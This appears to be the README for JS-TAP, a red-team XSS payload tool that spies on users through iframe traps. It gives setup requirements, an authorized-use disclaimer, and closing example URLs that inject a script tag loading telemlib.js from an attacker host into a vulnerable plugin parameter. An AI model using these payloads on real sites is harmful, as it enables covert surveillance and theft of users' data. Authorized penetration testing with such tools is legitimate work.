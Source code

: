 # JS-TAP
Tailored XSS payload that uses iFrame traps to spy on user. Can also be used as a post exploitation payload. 
Intended for redteam ops. 
@hoodoer

This tool is intended to be used on systems you are authorized to attack.
Do not use this tool for illegal purposes, or I will be very angry in your general direction. 
@hoodoer


Pip requirements: 

Server ones:
flask
flask-cors
flask-sqlalchemy



Generator ones:
dataframe_image
fpdf
progressbar




HTML Parser:
bs4




https://targetapp.possiblymalware.com/wp-content/plugins/sketchyPlugin/unauthXSS.php?param=%3Cscript%20src=%27https://192.168.2.61:8444/lib/telemlib.js%27%3E%3C/script%3E

https://targetapp.possiblymalware.com/wp-content/plugins/sketchyPlugin/unauthXSS.php?param=%3Cscript%20src=%27https://127.0.0.1:8444/lib/telemlib.js%27%3E%3C/script%3E



https://targetapp.possiblymalware.com/wp-content/plugins/sketchyPlugin/unauthXSS.php?param=%3Cscript%3Ealert(%27XSS%27)%3C/script%3E


